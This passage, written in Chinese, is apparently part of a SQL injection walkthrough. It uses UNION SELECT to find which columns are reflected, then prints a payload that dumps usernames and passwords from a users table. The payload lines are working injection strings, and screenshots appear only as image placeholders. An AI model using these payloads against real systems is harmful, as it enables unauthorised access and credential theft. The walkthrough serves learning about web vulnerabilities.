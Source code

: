 *****这意味着在数据库中只有 4 列*****

*****让我们检查一下有多少列容易受到攻击，为此我们使用了 **UNION SELECT*******

```
*****') union select 1,2,3,4-- -*****
```

*****![](img/bcf79d43565a5a7979889a348c08b01e.png)*****

*****查询显示第 3 列是易受攻击的 **{2，3，4}** 位置*****

*****让我们从数据库中获取信息*****

*****如果你了解 mysql，你可以很容易理解这个查询*****

```
*****') union select 1,group_concat(username),group_concat(password),4 from users-- -*****
```

*****![](img/3b215fc051881e62e75a11387455c877.png)*****

